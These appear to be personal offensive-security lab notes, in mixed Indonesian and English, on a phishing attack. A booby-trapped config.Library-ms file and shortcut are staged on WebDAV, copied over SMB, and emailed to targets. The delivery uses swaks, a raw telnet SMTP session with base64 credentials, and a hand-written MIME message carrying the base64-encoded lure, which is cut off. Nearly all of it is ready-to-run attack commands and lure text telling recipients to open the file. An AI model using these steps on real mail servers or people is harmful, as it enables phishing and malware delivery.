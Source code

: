 10. Pivot ke mesin lain, copy automatic_configuration.lnk and config.Library-ms to our WebDAV directory (double click config.Library-ms)

11. cd ke webdav directory

12. Transfer ke clientnya lewat smb, kebetulan buka
```cmd
smbclient //192.168.209.195/share -c 'put config.Library-ms'
```
MOTW (mark of the web akan tetap diberikan even kita download file dari local network via smb or http server. MOTW bakal diberikan buat semua file yang datang dari external sources).

## Sending email using Swaks (easier)
```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.234.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
>> body.txt (itu pesannya, dear mr blalba, please open this documents.. etc.)

## Sending email using Telnet SMTP
```bash
telnet 192.168.209.199 25
EHLO supermagicorg.com
AUTH LOGIN
334 VXNlcm5hbWU6
[Base64-encoded username] >> dGVzdEBzdXBlcm1hZ2ljb3JnLmNvbQ==
334 UGFzc3dvcmQ6
[Base64-encoded password] >> dGVzdA==
MAIL FROM:ardian.danny@supermagicorg.com
RCPT TO:dave.wizard@supermagicorg.com
DATA
<emailnya>
.
```
## Sending email using SMTP with ATTACHMENT (send phishing, doc with Macro, config.Library-ms, etc.)
> Sama kyk sebelumnya, cuma beda di isi data aja
> SESUAIKAN CONTENT TYPE ETC.
> CONVERT FILENYA KE BASE64 STRING
```bash
base64 config.Library-ms > config.Library-ms_base64
```
```bash (JGN LANGSUNG COPY SMW, NTAR RUSAK, LINE BY LINE)
DATA
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary="boundary_string"

--boundary_string
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 7bit

Hello, Dave, please open this file.

--boundary_string
Content-Type: application/octet-stream; name="config.Library-ms"
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="config.Library-ms"

PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4NCjxsaWJyYXJ5RGVzY3JpcHRp
b24geG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZG93cy8yMDA5L2xpYnJh
cnkiPg0KICA8bmFtZT5Ad2luZG93cy5zdG9yYWdlLmRsbCwtMzQ1ODI8L25hbWU+DQogIDx2ZXJz
aW9uPjg8L3ZlcnNpb24+DQogIDxpc0xpYnJhcnlQaW5uZWQ+dHJ1ZTwvaXNMaWJyYXJ5UGlubmVk
Pg0KICA8aWNvblJlZmVyZW5jZT5pbWFnZXJlcy5kbGwsLTEwMDM8L2ljb25SZWZlcmVuY2U+DQog
```